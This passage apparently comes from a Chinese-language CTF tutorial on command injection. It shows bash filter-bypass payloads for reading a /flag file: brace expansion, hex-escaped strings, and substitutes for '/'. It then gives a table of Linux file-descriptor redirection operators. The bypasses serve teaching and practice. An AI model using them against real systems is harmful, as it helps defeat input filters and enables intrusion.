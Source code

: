 **{}**

该语法只在 bash 中生效。

```
{cat,/f'l'ag}
```

**进制**

```
X=$'cat\x20/flag'&&$X
```

**扩展：过滤 /**

```
${HOME:0:1}来替代"/"：
cat /flag ---->>> cat ${HOME:0:1}flag

$(echo . | tr '!-0' '"-1') 来替代"/"：
cat $(echo . | tr '!-0' '"-1')flag
```

#### Level 8 : 命令执行 - 文件描述和重定向

在Linux中文件描述符(File Descriptor)是用于标识和访问打开文件或输入/输出设备的整数值，每个打开的文件或设备都会被分配一个唯一的文件描述符，Linux 中的文件描述符使用非负整数值来表示其中特定的文件描述符有以下含义

- 标准输入(stdin)：文件描述符为0，通常关联着终端键盘输入
- 标准输出(stdout)：文件描述符为1，通常关联着终端屏幕输出
- 标准错误(stderr)：文件描述符为2，通常关联着终端屏幕输出

平时我们使用的"<"和">"其实就相当于是使用"0<"和"1>"，下面是几种常见的使用示例：

| 符号   | 示例                          | 解释                                                         |
| ------ | ----------------------------- | ------------------------------------------------------------ |
| `>`    | `echo "Hello" > file.txt`     | 将 `echo` 的输出重定向到 `file.txt` 文件                     |
| `<`    | `wc -l < file.txt`            | 将 `file.txt` 作为 `wc` 命令的输入                           |
| `>>`   | `echo "World" >> file.txt`    | 将 `echo` 的输出以追加方式重定向到 `file.txt`                |
| `<<`   | `cat << EOF`                  | 将输入的文本作为 `cat` 命令的输入，直到遇到 `EOF` 结束       |
| `<>`   | `cat <> file.txt`             | 以读写模式打开 `file.txt` 并将其内容作为输入                 |
| `>\|`   | `echo "Override" >\| file.txt` | 强制覆盖写入到 `file.txt` 文件，即使它具有写保护             |
| `: >`  | `: > file.txt`                | 将 `file.txt` 截断为0长度，或创建空文件                      |
| `>&n`  | `ls >&2`                      | 将 `ls` 的标准输出和错误输出重定向到文件描述符 `n` (如 `2` 为标准错误输出) |
| `m>&n` | `exec 3>&1`                   | 将文件描述符 `3` 重定向到描述符 `1`，即输出重定向到标准输出  |
| `>&-`  | `exec >&-`                    | 关闭标准输出                                                 |
| `<&n`  | `exec <&0`                    | 输入来自文件描述符 `0` (标准输入)                            |
| `m<&n` | `exec 3<&0`                   | 将文件描述符 `3` 重定向到描述符 `0` (标准输入)               |
| `<&-`  | `exec <&-`                    | 关闭标准输入文件描述符                                       |
| `<&n-` | `exec <&0-`                   | 重定向并关闭文件描述符 `n` (标准输入)                        |
| `>&n-` | `exec >&1-`                   | 重定向并关闭文件描述符 `n` (标准输出)                        |
